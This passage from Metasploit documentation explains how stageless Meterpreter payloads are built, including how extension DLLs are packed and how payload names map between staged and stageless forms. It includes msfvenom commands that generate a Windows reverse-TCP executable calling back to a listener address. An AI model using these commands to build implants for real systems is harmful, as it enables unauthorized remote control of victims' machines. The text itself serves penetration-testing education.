 1. Loads the extension DLL into memory.
1. Calculates the size of the DLL.
1. Writes the size of the DLL as a 32-bit value to the end of payload buffer.
1. Writes the entire body of the DLL, as-is, to the end of the payload buffer.
 
Once the end of the list of extensions is reached, the last thing that is written to the payload buffer is a 32-bit representation of `0` (`NULL`) which indicates that the list of extensions has been terminated. This `NULL` value is what **metsrv** will look for when iterating through the list of extensions so that it knows when to stop.
 
The final payload layout looks like the following:

![9](https://i.imgur.com/SPVuOgJ.png)
**TODO** Fix this up to include the configuration block.

This payload can be embedded in an exe file, encoded, thrown into an exploit (assuming there's room!), and who knows what else! The important thing is that we now have all of the bits that we need in the one payload.
 
## How do I use stageless Meterpreter?
 
Firstly, it has a different name! It follows the same convention as all of the other staged vs stageless payloads:
 
| **Payload**      | **Staged**                             | **Stageless**                          |
| ---------------- | -------------------------------------- | -------------------------------------- |
| Reverse TCP      | `windows/meterpreter/reverse_tcp`      | `windows/meterpreter_reverse_tcp`      |
| Reverse HTTPS    | `windows/meterpreter/reverse_https`    | `windows/meterpreter_reverse_https`    |
| Bind TCP         | `windows/meterpreter/bind_tcp`         | `windows/meterpreter_bind_tcp`         |
| Reverse TCP IPv6 | `windows/meterpreter/reverse_ipv6_tcp` | `windows/meterpreter_reverse_ipv6_tcp` |
 
To create a payload using one of these babies, you use `msfvenom` just like you would any other payload.
 
To make a stageless payload that contains only **metsrv** we do the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 -f exe -o stageless.exe
```

Here we're making use of the Immunity Debugger program binary because it has a large enough .text section.
 
To add extensions to the payload, we can make use of the `EXTENSIONS` parameter, which takes a comma-separated list of extension names.

```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

With a payload created, we can set up a listener which will handle the connection using `msfconsole`.
